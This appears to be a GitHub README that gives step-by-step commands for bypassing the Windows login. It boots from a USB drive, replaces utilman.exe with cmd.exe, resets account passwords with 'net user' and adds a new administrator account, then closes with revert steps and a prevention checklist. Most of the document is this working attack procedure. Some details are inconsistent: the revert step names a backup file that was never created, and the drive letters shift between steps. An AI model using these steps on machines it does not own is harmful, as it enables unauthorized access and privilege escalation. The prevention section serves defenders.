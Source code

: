 <h1 align="center">Windows Login Bypass and Prevention</h1>


## Explaination
We are trying to access CMD so that we can change the Username, Password without Logging in. So, We used Bootable USB: As we can access temporary CMD from there and there is also a way in Windows 10 via Troubleshooting but that's not possible for all Window User.

So after opening CMD we perform some steps like searching for System Files present in our main computer by checking each drive then after searching we go to the System32 Folder and there we contain our utilman.exe and cmd.exe File. So we make a copy of utilman.exe and then changed utilman.exe as cmd.exe. As if we execute utilman.exe file, then cmd.exe will get executed. And utilman.exe is one and only ""Ease of Access"" which is present at the bottom right in Windows. So, after changing that and starting our Windows normally. We can click ""Ease of Access"" and cmd.exe will get executed and we can use out short script for which we were waiting for.

net user username password -> this will change out password for particular account without any problem.

## Requirement

A Computer, Bootable USB for Windows 10

## Steps

1. Restart and boot from Pendrive and after Install Screen appears then hit Shift + 10 and CMD will open up.

2. X: \Sources>
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>
```bash
C:
#the directory which comtains your system files
```


4. C: \>
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>
```bash
D:
```


6. D: \>
```bash
cd Windows
```


7. D: \Windows>
```bash
cd System32
```


8. D: \Windows\System32>
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user username password


## Creating a New User Account

To create a new user account in the Command Prompt (Username: `NewGuy`, Password: `abc123`), and add them to the Administrators usergroup, use the following commands:

```bash
net user NewGuy abc123 /add
net localgroup Administrators NewGuy /add
```

You should be able to log in immediately with this new account.


## Reverting Changes

To restore utilman.exe, in the Command Prompt, type the following:

C:>
```bash
cd windows\system32
del utilman.exe
ren utilman.exe.bak utilman.exe
```


Then, reboot the system.
To remove the new user account you created earlier, type the following:

```bash
net user NewGuy /delete
```






## Prevention: Protecting Your System

To prevent people from bypassing your Windows password using Command Prompt (CMD) or other methods, you can implement several security measures. Here are some effective strategies:

# **1. Enable Local Security Policies:**

Use the Local Security Policy editor to enforce strong password policies.
* Press Windows + R, type `secpol.msc`, and press Enter.
* Navigate to Local Policies > Security Options and adjust settings like:
    * Accounts: Administrator account status (disable if not needed)
    * Accounts: Guest account status (disable)

# **2. Disable Command Prompt Access:**

You can restrict access to CMD for standard users.
* Press Windows + R, type `gpedit.msc`, and press Enter.
* Navigate to User Configuration > Administrative Templates > System.
* Find the policy "Prevent access to the command prompt" and set it to Enabled.

# **3. Use User Account Control (UAC):**

Ensure UAC is enabled to prevent unauthorized changes.
* Go to Control Panel > User Accounts > Change User Account Control settings and set it to the highest level.

# **4. Limit Administrator Privileges:**

Ensure that users do not have administrative privileges unless necessary.
* Create standard user accounts for daily use and reserve admin accounts for administrative tasks.

# **5. Use BitLocker Encryption:**

Encrypt your drives with BitLocker to protect data.
* Go to Control Panel > System and Security > BitLocker Drive Encryption and enable it for your drives.

# **6. Keep Your System Updated:**

Regularly update Windows to patch vulnerabilities.
* Go to Settings > Update & Security > Windows Update and check for updates.

# **7. Use Strong Passwords:**

Ensure that all user accounts have strong, complex passwords.
* Consider implementing a password manager to generate and store complex passwords.

# **8. Monitor Account Access:**

Enable audit logging to monitor account access and changes.
* In the Local Security Policy, navigate to Local Policies > Audit Policy and enable auditing for logon events.

# **9. Disable Boot from External Devices:**

Prevent users from booting from USB or external drives.
* Access BIOS/UEFI settings during boot and adjust boot order or disable USB booting.
